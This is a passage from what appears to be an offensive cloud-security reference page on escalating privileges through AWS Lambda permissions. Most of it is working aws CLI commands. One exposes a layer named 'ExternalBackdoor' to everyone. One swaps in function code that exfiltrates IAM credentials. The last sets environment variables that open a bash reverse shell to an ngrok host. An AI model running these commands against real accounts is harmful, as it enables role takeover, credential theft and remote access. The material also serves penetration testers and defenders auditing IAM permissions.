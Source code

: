 **Potential Impact:** Direct privesc to the lambda service role used by granting permission to modify the code and run it.

### `lambda:AddLayerVersionPermission`

An attacker with this permission can **grant himself (or others) the permission `lambda:GetLayerVersion`**. He could access the layer and search for vulnerabilities or sensitive information

{% code overflow="wrap" %}
```bash
# Give everyone the permission lambda:GetLayerVersion
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion
```
{% endcode %}

**Potential Impact:** Potential access to sensitive information.

### `lambda:UpdateFunctionCode`

Users holding the **`lambda:UpdateFunctionCode`** permission has the potential to **modify the code of an existing Lambda function that is linked to an IAM role.**\
The attacker can **modify the code of the lambda to exfiltrate the IAM credentials**.

Although the attacker might not have the direct ability to invoke the function, if the Lambda function is pre-existing and operational, it's probable that it will be triggered through existing workflows or events, thus indirectly facilitating the execution of the modified code.

{% code overflow="wrap" %}
```bash
# Thezip should contain the lambda code (trick: DOwnload the current one and add your code there)
aws lambda update-function-code --function-name target_function \
    --zip-file fileb:///my/lambda/code/zipped.zip

# If you have invoke permissions:
aws lambda invoke --function-name my_function output.txt

# If not check if it's exposed in any URL or via an API gateway you could access
```
{% endcode %}

**Potential Impact:** Direct privesc to the lambda service role used.

### `lambda:UpdateFunctionConfiguration`

#### RCE via env variables

With this permissions it's possible to add environment variables that will cause the Lambda to execute arbitrary code. For example in python it's possible to abuse the environment variables `PYTHONWARNING` and `BROWSER` to make a python process execute arbitrary commands:

{% code overflow="wrap" %}
```bash
aws --profile none-priv lambda update-function-configuration --function-name <func-name> --environment "Variables={PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=\"/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/18755 0>&1' & #%s\"}"
```
{% endcode %}
